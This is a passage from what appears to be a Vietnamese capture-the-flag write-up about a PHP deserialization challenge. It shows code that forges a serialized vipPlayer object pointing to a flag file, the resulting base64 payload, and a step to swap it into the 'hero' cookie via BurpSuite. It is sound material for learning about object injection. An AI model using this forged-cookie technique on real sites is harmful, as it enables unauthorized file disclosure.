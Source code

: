 ```php
class vipPlayer extends player
{
	private $weapon;

	function __construct($name)
	{
		$this->name = $name;
		$this->health = 200;
		$this->weapon = new weapon();
		$this->maxDamage = $this->weapon->GetMaxDamage();
	}

	public function GetIcon()
	{
		return base64_encode($this->weapon->GetIcon());
	}

	public function HaveWeapon()
	{
		return true;
	}
}

$a = new vipPlayer("a");
echo base64_encode(serialize($a));
?>
```

Ta được payload

```php
Tzo5OiJ2aXBQbGF5ZXIiOjQ6e3M6MTc6IgB2aXBQbGF5ZXIAd2VhcG9uIjtPOjY6IndlYXBvbiI6MTp7czoxNjoiAHdlYXBvbgBmaWxlSWNvbiI7czoxMDoiLi9GbDRnLnBocCI7fXM6NzoiACoAbmFtZSI7czoxOiJhIjtzOjEyOiIAKgBtYXhEYW1hZ2UiO2k6NTA7czo5OiIAKgBoZWFsdGgiO2k6MjAwO30=
```

Chặn bắt request với BurpSuite và đổi giá trị cookie hero, có thể thấy player đã có hàng nóng
